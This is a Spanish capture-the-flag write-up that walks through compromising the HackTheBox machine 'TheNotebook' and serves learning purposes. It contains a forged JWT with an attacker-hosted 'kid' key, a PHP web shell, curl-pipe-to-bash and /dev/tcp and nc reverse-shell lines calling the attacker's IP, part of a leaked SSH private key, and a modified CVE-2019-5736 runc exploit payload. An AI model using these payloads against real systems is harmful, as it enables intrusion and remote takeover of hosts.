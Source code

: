 ```yaml
---
layout      : post
title       : "HackTheBox - TheNotebook"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320banner.png
category    : [ htb ]
tags        : [ docker, JWT, SSH-keys, runc ]
---
```

Máquina Linux nivel medio. Exploraremos el mundo de los **JSON Web Tokens** para ingresar a una web con permisos administrativos. Jugaremos con llaves **SSH** y romperemos el siempre fiel **Docker** mediante un **CVE** que permite sobreescribir el contenido del binario **/bin/sh** con lo que queramos.

![320thenotebookHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320thenotebookHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [mostwanted002](https://www.hackthebox.eu/profile/120514).

Se ave cina...

Hola, nos enfrentaremos a un inicio muy lindo. Encontraremos un sitio web que nos permite guardar nuestras notas y nada más :O Pero echándole ojo a la cookie veremos algo interesante, es generada mediante `JSON Web Tokens` con una estructura peculiar, la llave con la que lo hace esta siendo llamada mediante una **URL** y cada usuario lleva indicado si es o no admin, aprovecharemos esto para crear un nuevo token que llame la llave de nuestro servidor y también otorgándole permisos a nuestro usuario de ser admin. Esto para finalmente lograr subir archivos en el **Admin Panel** yyy claramente subiremos una Web Shell para obtener una sesión en la máquina como `www-data`.

Cree un script para automatizar todo este proceso y obtener **RCE** en la terminal, échenle un ojazo:

* [RCE_phpfile.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/thenotebook/RCE_phpfile.py).

Enumerando nos toparemos con las llaves `SSH` del usuario `noah`, usaremos su llave privada para obtener una sesión en la máquina sin necesitar la contraseña.

Validando los permisos de administrador que tenemos sobre el sistema, nos daremos cuenta de que podemos ejecutar un contenedor con `Docker`, validando la versión del propio **Docker** y buscando vulnerabilidades relacionadas, encontraremos una que nos permite modificar el contenido del binario `runC` (que se ejecuta siempre que llamemos a **Docker**) y que al mismo tiempo modifica el binario `/bin/sh` con nuestro **payload**, para una vez llamemos una Shell con **/bin/sh** dentro del contenedor se ejecute el payload... Usaremos esto para conseguir una Shell como el usuario `root`, a darleeeee.

...

#### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Vulns conocidas, le cuesta mucho llegar a ser real (pero lo intenta).

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Nuestro camino a donde gloria:

1. [Enumeración](#enumeracion).
2. [Explotación](#explotacion).
3. [Movimiento Lateral **noah**](#movimiento-lateral-noah).
4. [Escalada de privilegios](#escalada-de-privilegios).

...

## Enumeración [#](#enumeracion) {#enumeracion}

Inicialmente haremos un escaneo de puertos para saber que servicios esta ejecutando la máquina:

```bash
❭ nmap -p- --open -v 10.10.10.230 -oG initScan
```

| Parámetro  | Descripción   |
| -----------|:------------- |
| -p-        | Escanea todos los 65535.                                                                                  |
| --open     | Solo los puertos que están abiertos.                                                                      |
| -v         | Permite ver en consola lo que va encontrando.                                                             |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

```bash
❭ cat initScan 
# Nmap 7.80 scan initiated Mon Mar 15 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.230
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.230 ()   Status: Up
Host: 10.10.10.230 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Mon Mar 15 25:25:25 2021 -- 1 IP address (1 host up) scanned in 112.60 seconds
```

A ver, que tenemos...

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://es.wikipedia.org/wiki/Secure_Shell)**: Acceso a un servidor remoto por medio de un canal seguro. |
| 80     | **[HTTP](https://es.wikipedia.org/wiki/Protocolo_de_transferencia_de_hipertexto)**: Servidor web.                |

Ahora hagamos un escaneo de scripts y versiones con base en cada servicio (puerto) encontrado, así validamos a profundidad cada uno:

```bash
❭ nmap -p 22,80 -sC -sV 10.10.10.230 -oN portScan
```

| Parámetro | Descripción |
| ----------|:----------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
❭ cat portScan 
# Nmap 7.80 scan initiated Mon Mar 15 25:25:25 2021 as: nmap -p 22,80 -sC -sV -oN portScan 10.10.10.230
Nmap scan report for 10.10.10.230
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 15 25:25:25 2021 -- 1 IP address (1 host up) scanned in 11.66 seconds
```

Obtenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80     | HTTP     | nginx 1.14.0                    |

A darle a ver por donde podemos entrar.

...

### Puerto 80 [×](#puerto-80) {#puerto-80}

![320page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80.png)

Un lugar para guardar mis notas o pensamientos... Podemos registrarnos e ingresar al sitio, después de este paso, en el dashboard tenemos:

![320page80_dashboard](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_dashboard.png)

Hagamos caso y veamos las notas: (disculparán el montón de pruebas)

![320page80_notes](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_notes.png)

Algo raro que note fue la URL, no sé, poco usual...

---

### 🌋 ¡Entramos en un Rabbit hole, cuidaoooo!

Después de un rato enumerando, probando, jugando con la URL, etc. Nada. Haciendo fuzz encontramos un directorio llamado `/admin`:

```bash
❭ dirsearch.py -u http://10.10.10.230 -q
403 -    9B  - http://10.10.10.230/admin
200 -    1KB - http://10.10.10.230/login
302 -  209B  - http://10.10.10.230/logout  ->  http://10.10.10.230/
200 -    1KB - http://10.10.10.230/register
```

Pero tenemos un código de estado `403` que nos indica la prohibición completa hacia ese recurso :P Pero jugando con ese mismo recurso encontramos otros directorios:

> [Status code **403 Forbidden**](https://mediatemple.net/community/products/dv/204644980/why-am-i-seeing-a-403-forbidden-error-message).

```bash
❭ dirsearch.py -u http://10.10.10.230/admin -w /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt -q
403 -    9B  - http://10.10.10.230/admin/upload
200 -    3KB - http://10.10.10.230/admin/notes
```

Curioso, tenemos prohibido el acceso al recurso `/a, pero no al `/admin/notes`, veamos si podemos obtener algo de ahí:

![320page80_admin_notes](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes.png)

Jmm, intentando agregar notas siempre obtenemos "`Internal Server Error`", peeero si nos fijamos en la URL, a veces cambia como si hiciera la inserción de la nota, veamos un ejemplo rápidamente:

![320page80_admin_notes_add_preview](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes_add_preview.png)

![320page80_admin_notes_add_URL](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes_add_URL.png)

En la URL se agrega un numero y si validamos si se creó la nota:

![320page80_admin_notes_created](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes_created.png)

Y si, se crea... Pero no logre hacer nada con esto :P

---

### 🗻 Salimos del Rabbit hole

Dando vueltas y revisando cositas, nos damos cuenta de algo lindo en nuestra cookie: (podemos verla de varias formas, pero como lo divide el navegador esta bien para que se entienda mejor lo que haremos)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_cookie.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Es un formato que había usado en alguna ocasión y de una me acordé de que trataba (también por el inicio de la cadena (`ey`, que en `base64` es `{"` (o sea el inicio de un JSON e.e))... 

[JSON Web Tokens](https://jwt.io/introduction), que sirven para transmitir información mediante objetos `JSON` de manera segura, esto gracias a que son firmados digitalmente con llaves privadas o públicas.

* [Qué es **JSON Token** y como funciona](https://openwebinars.net/blog/que-es-json-web-token-y-como-funciona/).

Entonces, podemos usar la herramienta [jwt.io](https://jwt.io/) para jugar con estos tokens, así que, tomamos nuestra cookie `auth` y la pegamos a la izquierda:

![320google_jwt_original_output](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_original_output.png)

Algo lindo de esta herramienta es que nos separa por colores (y puntos) las partes del token (cada parte del array que nos mostró el navegador). Cada apartado del token esta en `base64`, la página nos lo decodea y a la derecha tenemos el resultado... (Todo esto podemos cambiarlo, pero antes veamos que hay en cada apartado)

**Header**:

Vemos el tipo de token y el tipo de algoritmo usado yyyyy podemos deducir que esta tomando la llave privada servida en el puerto `7070` del localhost llamada `privKey.key`.

**Payload (Data)**:

Tenemos info del usuario y un campo extraño que hace alusión a algo sobre el administrador y en nuestro caso esta apagado... Interesante.

**Verify signature**:

Acá va la llave privada del host.

...

## Explotación [#](#explotacion) {#explotacion}

Bien, como podemos aprovecharnos de esto...

Sabemos que esta usando una URL para leer la llave privada que usa contra el `JWT`, entonces:

1. Generaremos una llave privada.
2. hostearemos un servidor web. 
3. Y en el **header** pondremos nuestra URL llamando la llave, esto para que la web tome nuestra llave y podamos modificar el token.

En el apartado **payload (data)** aprovecharemos el ítem que habla del `admin` para alterarlo a `true` y ver si nos asignan como administradores del sistema de notas.

Y finalmente agregaremos nuestra llave privada en **verify signature**.

Démosle. Generemos la llave privada, me guie de este [recurso](https://serverfault.com/questions/224122/what-is-crt-and-key-files-and-how-to-generate-them#answer-224127):

**Header:**

```bash
❭ openssl genrsa 2048 > palaKeypa.key
# pero despues de generarla, copiarla y pegarla en la web
# vemos que es más pequeña que la que ya estaba originalmetn en nusetro token,
# asi que le modificamos el tamaño al doble
```

```bash
❭ openssl genrsa 4096 > palaKeypa.key
Generating RSA private key, 4096 bit long modulus (2 primes)
.................................................++++
......................................................................................++++
e is 65537 (0x010001)
❭ chmod 400 palaKeypa.key
```

Entonces, ahora modificamos el **header**: (se puede hacer en la Shell o en la web, para que sea más legible se las mostraré en la web)

```json
{"typ": "JWT","alg": "RS256","kid": "http://10.10.14.194:8000/palaKeypa.key"}
```

Lo pasamos a `base64`:

```bash
❭ echo '{"typ": "JWT","alg": "RS256","kid": "http://10.10.14.194:8000/palaKeypa.key"}' | base64 
eyJ0eXAiOiAiSldUIiwiYWxnIjogIlJTMjU2Iiwia2lkIjogImh0dHA6Ly8xMC4xMC4xNC4xOTQ6
ODAwMC9wYWxhS2V5cGEua2V5In0K
```

Y pegamos en la web (pegado y sin `=`)

![320google_jwt_headerPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_headerPART.png)

**Payload (data):**

```json
{"username": "lanz","email": "lanz@lanz.htb","admin_cap": true}
```

```bash
❭ echo '{"username": "lanz","email": "lanz@lanz.htb","admin_cap": true}' | base64
eyJ1c2VybmFtZSI6ICJsYW56IiwiZW1haWwiOiAibGFuekBsYW56Lmh0YiIsImFkbWluX2NhcCI6
IHRydWV9Cg==
```

![320google_jwt_payloadPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_payloadPART.png)

**Verify signature:**

Copiamos la llave que generamos (con todo y `--`) y la pegamos en la web en esta parte:

![320google_jwt_signPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_signPART.png)

Y listos, tenemos nuestro token generado. Ahora la prueba de fuego.

Hosteamos el servidor web:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Tomamos el token, editamos nuestra cookie `auth` por la nueva y simplemente refrescamos la página. Yyyyyyyyyy obtenemos:

```bash
...
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.230 - - [15/Mar/2021 25:25:25] "GET /palaKeypa.key HTTP/1.1" 200 -
```

![320page80_weareasadminLOL](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_weareasadminLOL.png)

¿Ves algo distinto? e.e (Tamos dentro como **admin** fathEEEEEEer, muy lindo esto)

Veamos el nuevo apartado `Admin Panel`:

![320page80_admin_panel](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel.png)

![320page80_admin_panel_uploadFiles](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_uploadFiles.png)

Opa, podemos subir archivos y parece que de cualquier tipo, probemos a subir de una un archivo `.php` para generar ejecución remota de comandos. Veamos si nos da algún problema...

```bash
❭ cat toRiCE.php 
<?php $coma=shell_exec($_GET['xmd']); echo $coma; ?>
```

El script simplemente indica: que recibirá una petición mediante el método `GET` y la guardara en la variable `xmd`, esta a su vez, hará una petición al sistema mediante `shell_exec` y el resultado del comando ejecutado se guardará en la variable `$coma`, al final simplemente mostramos ese contenido. Subámoslo, seleccionamos el archivo y damos clic en `Save`, nos devuelve:

![320page80_admin_panel_up_RCEfile](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_up_RCEfile.png)

Veamos el archivo que se subió y probemos de una vez por ejemplo, ver que usuario somos y el hostname:

![320page80_admin_panel_RCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_RCE.png)

Perfecto, tenemos ejecución remota de comandos, entablémonos una Reverse Shell...

(El archivo es borrado rápidamente así que debemos ser igual o más rápidos)

Probando y fallando podemos generar un archivo `.sh` que contenga lo que queramos ejecutar en el sistema y simplemente como comando en la web le decimos que haga un `cURL` hacia nuestro script y que a su vez interprete y ejecute el contenido:

```bash
❭ cat rev.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.194/4433 0>&1"
#rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1 | nc 10.10.14.194 4433 >/tmp/f
```

Colocamos este archivo en la ruta en que tenemos el servidor de `Python` activo, así evitamos servir otro puerto :P 

Nos ponemos en escucha con `netcat`:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y lanzamos como `payload` para validar que tenemos comunicación y ve nuestro código:

```html
http://10.10.10.230/f34242c373ba88e18f73fd2e0eccd648.php?xmd=curl http://10.10.14.194:8000/rev.sh
```

Y simplemente le agregamos `| bash` para que interprete el contenido del archivo y lo ejecute en el sistema:

```html
http://10.10.10.230/f34242c373ba88e18f73fd2e0eccd648.php?xmd=curl http://10.10.14.194:8000/rev.sh | bash
```

YYYYYYYyyyyYye.e:

![320bash_revSH_www](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_revSH_www.png)

Tamos dentro de la máquina, peeeerfectowowowo.

...

Es un poco MEHH el estar creando el token, modificando la cookie y todo eso manualmente, así que aprovechemos la oportunidad para automatizar toooodo y obtener ejecución de comandos simplemente pasándole el comando que queremos ejecutar a un **script**:

* [RCE_phpfile.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/thenotebook/RCE_phpfile.py).

Ahora sí, sigamos.

...

## Movimiento lateral www-data -> noah [#](#movimiento-lateral-noah) {#movimiento-lateral-noah}

Enumerando el directorio `/var/backups` encontramos un archivo algo llamativo:

```bash
www-data@thenotebook:/var/backups$ ls -la
total 60
drwxr-xr-x  2 root root  4096 Mar 22 08:20 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```

Copiemos el archivo comprimido e intentemos ver su contenido:

```bash
www-data@thenotebook:/var/backups$ cp home.tar.gz /dev/shm/
www-data@thenotebook:/var/backups$ cd !$
cd /dev/shm/
www-data@thenotebook:/dev/shm$ ls
home.tar.gz
www-data@thenotebook:/dev/shm$ gzip -d home.tar.gz 
www-data@thenotebook:/dev/shm$ ls
home.tar
www-data@thenotebook:/dev/shm$ tar xvf home.tar 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

Opa, el backup del `/home` de un usuario llamado `noah` (efectivamente en la máquina existe), tenemos un par de llaves `SSH`, copiémonos el contenido de la llave privada `(id_rsa)` y creémonos un archivo con su contenido en nuestra máquina, esto para entrar por medio de `SSH` sin tener que ingresar contraseña:

* [Info SSH keys (Español)](https://wiki.archlinux.org/title/SSH_keys_(Espa%C3%B1ol)).

---

```bash
❭ cat key_noah 
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
rLymqVzxjEbLUkIgjZNW49ABwi2pDfzoXnij9JK8s3ijIo+w/0RqHzAfgS3Y7t+b
...
❭ chmod 400 key_noah
```

Y ejecutamos hacia la máquina:

```bash
❭ ssh noah@10.10.10.230 -i key_noah 
load pubkey "key_noah": invalid format
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-135-generic x86_64)
...
```

![320bash_SSH_noah](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_SSH_noah.png)

Nice, somos `noah` y tenemos acceso a la flag `user.txt`.

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si vemos los permisos que tenemos como `root`, encontramos:

```bash
noah@thenotebook:/dev/shm$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

El usuario `noah` puede ejecutar comandos inicialmente en el contenedor `webapp-dev01` y dado el caso en todos los contenedores que empiecen con `webapp-dev01`, veamos que hay dentro, ejecutemos una `bash` en el container:

```bash
noah@thenotebook:/dev/shm$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@c8d1914f59cd:/opt/webapp# ls -la
total 52
drwxr-xr-x 1 root root 4096 Feb 12 07:30 .
drwxr-xr-x 1 root root 4096 Feb 12 07:30 ..
drwxr-xr-x 1 root root 4096 Feb 12 07:30 __pycache__
drwxr-xr-x 3 root root 4096 Nov 18 13:27 admin
-rw-r--r-- 1 root root 3303 Nov 16 19:43 create_db.py
-rw-r--r-- 1 root root 9517 Feb 11 15:00 main.py
-rw------- 1 root root 3247 Feb 11 15:09 privKey.key
-rw-r--r-- 1 root root   78 Feb 12 07:12 requirements.txt
drwxr-xr-x 3 root root 4096 Nov 19 10:57 static
drwxr-xr-x 2 root root 4096 Nov 18 13:47 templates
-rw-r--r-- 1 root root   20 Nov 20 09:18 webapp.tar.gz
```

Bien, tenemos la estructura y todos los archivos que usa para el servidor web de las notas... Pero enumerando no encontramos nada relevante, así que regresemos y volvamos a enumerar...

Si vemos la versión actual de Docker obtenemos la `18.06.0-ce`:

```bash
noah@thenotebook:~$ docker -v
Docker version 18.06.0-ce, build 0ffa825
```

Buscando vulnerabilidades sobre ella, encontramos el CVE [CVE-2019-5736](https://www.cvedetails.com/cve/CVE-2019-5736/):

* [**Docker 18.06.0-ce** Vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-13534/product_id-28125/Docker-Docker.html).

![320google_CVE_docker18-16-0-ce](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_CVE_docker18-16-0-ce.png)

Nos indica que el binario `runc` (que se ejecuta cuando <<ejecutamos>> `Docker`) es vulnerable a ser sobreescrito y por consiguiente indicarle comandos para que sean ejecutados como el usuario `root` en la máquina host :O

> `runC`: ["command-line tool for spawning and running containers"](https://opensource.com/life/16/8/runc-little-container-engine-could).

Nice, busquemos referencias de exploits a ver cuál podemos usar:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_CVE_docker18-16-0-ce_githubLIST.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Tenemos varios, dándole unos ojazos, el más sencillo de entender es el de [Frichetten](https://github.com/Frichetten/CVE-2019-5736-PoC), esta hecho en `.go` y solo debemos mover un archivo al sistema, metámosle candela:

* [https://github.com/Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC).

Lo clonamos en nuestra máquina y vemos el archivo `main.go`, explorándolo simplemente debemos modificar la variable `payload`, como prueba haré que nos envíe el resultado del comando `hostname` a nuestro listener en `nc`:

```go
...
// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n hostname | nc 10.10.14.194 4433"
...
```

Bajando un poco (y leyendo el repo) nos indica lo que hará. Tomará el binario `/bin/sh` y lo sobreescribirá para que una vez sea ejecutado `Docker` este llame el binario `runC` y este a su vez sobreescriba el contenido del binario `/bin/sh` para que se transforme en el contenido de nuestra variable `payload` (o sea el comando `hostname` en este caso). Pero veremos la ejecución del payload una vez hagamos el llamado del binario `/bin/sh` (que en esta parte ya estaría modificado) en el contenedor (para esto necesitaremos otra Shell con el usuario `noah`, para primero ejecutar el binario `main` y por segundo ejecutar la explotación (el binario `/bin/sh`)).

Listo, guardamos y creamos el binario:

```bash
❭ go build main.go #Genera el binario "main"
❭ ls
main  main.go  README.md  screenshots
```

Listos, ahora podemos subirlo al contenedor, creemos un servidor en `Python` y de paso pongámonos en escucha con `nc`:

```py
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

En la máquina víctima indicamos:

```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@c6d778ee6b03:/opt/webapp# cd /dev/shm
# Descargamos el binario a la máquina
root@c6d778ee6b03:/dev/shm# wget http://10.10.14.194:8000/main
...
root@c6d778ee6b03:/dev/shm# ls -la
total 2220
drwxrwxrwt 2 root root      60 Mar 16 19:58 .
drwxr-xr-x 5 root root     360 Mar 16 19:16 ..
-rw-r--r-- 1 root root 2269904 Mar 16 19:42 main
# Damos permisos de ejecución
root@c6d778ee6b03:/dev/shm# chmod +x main
root@c6d778ee6b03:/dev/shm# ls -la
total 2220
drwxrwxrwt 2 root root      60 Mar 16 19:58 .
drwxr-xr-x 5 root root     360 Mar 16 19:16 ..
-rwxr-xr-x 1 root root 2269904 Mar 16 19:42 main
```

Acá estuve perdido un rato, ya que no lograba ejecutarlo:

```bash
root@c6d778ee6b03:/dev/shm# ./main
bash: ./main: Permission denied
root@c6d778ee6b03:/dev/shm# bash main 
main: main: cannot execute binary file
...
```

Dándole vueltas, desistí de ese script y usé otros repositorios, pero no conseguía ejecutar NADA (¿ya puedes imaginar por qué?)...

Pues resulta que si hacemos el mismo procedimiento, pero en el directorio  `/tmp` o incluso en el directorio `/opt/webapp`, ahí si me permite ejecutarlo 🙃 

Claramente por permisos que no entiendo, pero pues X:

```bash
root@c6d778ee6b03:/dev/shm# mv main /tmp/
root@c6d778ee6b03:/dev/shm# cd /tmp/
root@c6d778ee6b03:/tmp# ls -la
total 2264
drwxrwxrwt 1 root root    4096 Mar 16 20:05 .
drwxr-xr-x 1 root root    4096 Mar 16 19:16 ..
-rwxr-xr-x 1 root root 2269904 Mar 16 19:42 main
-rw-r--r-- 1 root root      78 Feb 12 07:12 requirements.txt
-rw-r--r-- 1 root root   32768 Feb 12 07:30 webapp.db
```

Ejecutamos:

```bash
root@c6d778ee6b03:/tmp# ./main 
[+] Overwritten /bin/sh successfully
```

Y se queda a la espera de la ejecución del binario `/bin/sh`, así que abrimos la otra sesión con `SSH` y volvemos a ejecutar el archivo `main`, pero ahora en la nueva Shell indicamos:

```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
```

Y en la sesión donde esta corriendo el binario `main` obtenemos:

```bash
root@867e71dd120c:/tmp# ./main 
[+] Overwritten /bin/sh successfully
[+] Found the PID: 66
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc0000aa8a0}
root@867e71dd120c:/tmp# 
```

Yyyy en nuestro listener:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
10.10.10.230: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.194] from (UNKNOWN) [10.10.10.230] 51878
thenotebook
```

Perfectoooo, estamos hablando con el `host`, entablémonos una Reverse Shell:

```go
...
var payload = "#!/bin/bash \n bash -c 'bash -i >& /dev/tcp/10.10.14.194/4433 0>&1 &'"
...
```

1. Compilamos.
2. Subimos binario `main` al contenedor.
3. Abrimos otra sesión `SSH`.
4. Ejecutamos el binario `main`.
5. Ejecutamos el binario `/bin/sh` en la nueva sesión.
6. Obtenemos nuestra Reverse Sheeeeeeeeeeeeeeell.

![320bash_revSH_root](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_revSH_root.png)

Perfectooooooooooooooooooooooooooo, hacemos tratamiento de la `TTY` y procedemos a ver las flags:

* [Savitar te explica el tratamiento de la **TTY**](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

![320flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320flags.png)

...

Linda máquina, me fascino el inicio, por lo tanto me cree un script para que haga toooodo el proceso de cambiar la cookie, subir el archivo yyy ejecutar los comandos (:

* [**RCE** mediante el archivo **.php**](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/thenotebook/RCE_phpfile.py)

Muy loco el tema de `Docker` y `runc`, y casi muero intentando ejecutar el binario en esa ruta :( Perooo bueno, se solucionó.

Muchas gracias por pasarse y leerse este montón de texto :P Y nada, a seguir rompiendo todo (: